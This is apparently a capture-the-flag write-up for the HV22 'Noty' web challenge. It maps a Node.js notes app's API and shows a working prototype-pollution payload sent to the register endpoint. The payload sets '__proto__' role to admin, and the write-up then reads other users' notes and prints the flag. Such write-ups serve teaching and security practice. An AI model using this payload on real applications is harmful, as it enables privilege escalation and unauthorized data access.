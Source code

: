 CSS: ../meta/avenir-white.css

[← Day 12](../day12/) / [↑ TOC](../README.md) / [→ Day 14](../day14/)


# Day 13 / HV22.13 Noty



## Challenge

* Author: HaCk0
* Tags:   `#web-security`
* Level:  medium

After the previous fiasco with multiple bugs in Notme (some intended and some
not), Santa released a now truly secure note taking app for you. Introducing:
Noty, a fixed version of Notme.

Also Santa makes sure that this service runs on green energy. No pollution from
this app ;)



## Solution

This challenge used the same notes web app as the one from [day 10](../day10/).
But obviously the previous bug was fixed.

The description contained a hint on the topic of the challenge: `pollution`.
Since it's already known that the server side runs _node.js_ it was evident that
this challenge is probably about _proto pollution_.

Proto pollution is a technique to "pollute" the prototype of the server runtime
with specificly crafted new properties. Since every object in javascript
implicitly has all the properties of the prototype object, it will also gain
these pollution properties. Under some circumstances it can happen that the code
uses prototype properties by the same name as real properties preferably to
the value that was actually inteded for said property. Often this is the case
if there is some sort of object merging going on, which is common in libraries
that parse JSON strings. Here's a [nice blog article][blogProto] explaining it
in more details.

[blogProto]: https://infosecwriteups.com/javascript-prototype-pollution-practice-of-finding-and-exploitation-f97284333b2

With the web app already mapped out ...

```
Procedures:

# Open page
GET  /api/user/me                        >   404 JSON msg:"No loggedin User found"

# Register user
POST /api/register  username,password    >   200 JSON id(int),username,password(hash),role,updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [empty list]

# Login
POST /api/login     username,password    >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Change password
POST /api/User/1    password             >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Note create
POST /api/note/new  note                 >   200 JSON id(int),note,userId(int),updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [ id(int),note,userId(int),createAt,updatedAt ]

# Open note
GET  /api/note/1                         >   200 JSON id(int),note,userId(int),createdAt,updatedAt
# Accessing a note-id you don't own      >   404 JSON msg:"not your note"
# Accessing a non-existing note-id       >   404 JSON msg:"note not found"
# Throws 500 if not int or 'all'

# Update note
POST /api/note/update id(int),note,userId(int),createdAt,updatedAt
                                         >   200 JSON msg:"Updated"
GET  /api/note/all                       >   200 JSON [ id(int),note,userId,createAt,updatedAt ]

# Logout
GET  /api/user/logout                    >   200 JSON msg:"logged out"

# Query user
GET  /api/User/1                         >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
# Accessing another user id              >   ??? JSON msg:"Cannot access user"
# Value can be 'all'                     >   ??? JSON msg:"Cannot access user"
```

... by bet was, that I'm supposed to gain a different `role`. It bugged me the
last time already that this property was not involved in attacking the web app.

Since in proto pollution it is important that the pollution happens _before_ new
objects are created, I tried it on the _register_ end point. And that proofed
successful after a few attempts ...

```sh
$ ./noty.sh post api/register \
'{"username":"leeloo","password":"multipass","__proto__":{"role":"admin"}}'

{"id":1,"username":"leeloo",\
"password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c",\
"role":"admin","updatedAt":"2022-12-14T17:19:53.834Z","createdAt":"2022-12-14T17:19:53.834Z"}

$ ./noty.sh post api/login '{"username":"leeloo","password":"multipass"}'
{"id":1,"role":"admin","username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","createdAt":"2022-12-14T17:19:53.834Z","updatedAt":"2022-12-14T17:19:53.834Z"}

$ ./noty.sh api/note/all
[{"id":1337,"note":"HV22{P0luT1on_1S_B4d_3vERyWhere}","userId":1337,"createdAt":"2022-12-14T17:16:26.833Z","updatedAt":"2022-12-14T17:16:26.833Z"}]
```

![](screenPolluted.png)

--------------------------------------------------------------------------------

Flag: `HV22{P0luT1on_1S_B4d_3vERyWhere}`

[← Day 12](../day12/) / [↑ TOC](../README.md) / [→ Day 14](../day14/)
